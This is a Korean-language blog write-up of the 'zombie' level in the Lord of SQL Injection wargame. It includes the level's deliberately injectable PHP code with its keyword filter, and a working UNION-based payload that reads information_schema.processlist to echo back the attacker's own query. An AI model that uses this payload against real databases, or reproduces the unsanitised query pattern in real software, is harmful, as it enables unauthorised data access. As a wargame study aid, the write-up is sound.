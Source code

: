 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


핳핳 드디어 거의 끝이 보인다!  

이번 문제는 `zombie`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------
query : select pw from prob_zombie where pw=''
-------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

처음엔 이 문제 보고 `이 전 문제 푼거랑 똑같이 풀면 되겠다!` 생각했다.  

근데 `ace`에 필터링이 있어서 `replace`를 사용을 못하더라.  

그래서 어떻게 풀지... 고민하는데 내 옆에 있던 `웹짱해커`님이 `ㅎㅎ 겁나 쉽게 풀 수 있는데~~` 이러고 약올렸다. ㅂㄷㅂㄷ  

화나는 건 이렇게 약올리는데 난 방법을 모르겠는거다!  

어쨌든 어찌어찌 풀긴 했는데, `information_schema`의 테이블 이름을 다 외우고 있어야되나 싶은 생각이 들었다.  

`information_schema` 데이터베이스를 보면 `processlist`라는 테이블이 있다.  

이 테이블에는 현재 실행중인 쿼리문이 저장되어 있다.  

실제 내 서버에서 확인해 본 결과이다.  

```
mysql> select * from processlist;
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| ID | USER | HOST      | DB                 | COMMAND | TIME | STATE     | INFO                      |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| 24 | root | localhost | information_schema | Query   |    0 | executing | select * from processlist |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
1 row in set (0.00 sec)
```

`INFO` 컬럼에 내가 방금 입력 한 `select * from processlist`가 있는 것을 알 수 있다.  

그렇다면 내가 문제를 풀기위해 입력하는 쿼리도 이 `processlist`에 들어가 있을테니, 그 `processlist`에서 데이터를 추출 해 내가 입력 한 부분만 잘라내면 그 결과가 똑같이 나오게 될 것이다.  

```
?pw=' union select substr(info, 38, 72) from information_schema.processlist#
```

위와 같이 넘겨준다면, `processlist`의 `info` 컬럼에 `select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#` 가 저장되어 있을 것이다.  

이 때, `substr(info, 38, 72)`를 `select`하도록 해, 내가 입력 한 `' union select substr(info, 38, 72) from information_schema.processlist#`를 뽑아 오도록 하면 된다.  

힣 `zombie`도 처치했다!  

```php
----------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#'
----------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : ' union select substr(info, 38, 72) from information_schema.processlist#
ZOMBIE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

`ZOMBIE Clear!!`
